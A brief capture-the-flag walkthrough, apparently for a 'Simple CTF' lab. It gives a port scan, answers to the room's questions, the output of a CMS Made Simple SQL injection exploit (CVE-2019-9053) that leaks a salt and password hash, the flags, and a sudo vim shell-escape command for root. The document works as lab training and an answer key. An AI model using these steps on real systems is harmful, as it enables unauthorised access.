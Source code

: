 # Simple CTF

## Notes
```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

## Questions
1. How many services are running under port 1000?
```
2
```

2. What is running on the higher port?
```
ssh
```

3. What's the CVE you're using against the application?
```
dirsearch /simple
CMS made simple 2.2.8 CVEs
CVE-2019-9053
```

4. To what kind of vulnerability is the application vulnerable?
```
sqli
```

5. What's the password?
```
exploit result
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: 8
username supposed to be mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96

secret
```

6. Where can you login with the details obtained?
```
ssh
```

7. What's the user flag?
```
G00d j0b, keep up!
```

8. Is there any other user in the home directory? What's its name?
```
sunbath
```

9. What can you leverage to spawn a privileged shell?
```
vim
```

10. What's the root flag?
```
sudo vim -c ':!/bin/sh'
cat /root/root.txt

W3ll d0n3. You made it!
```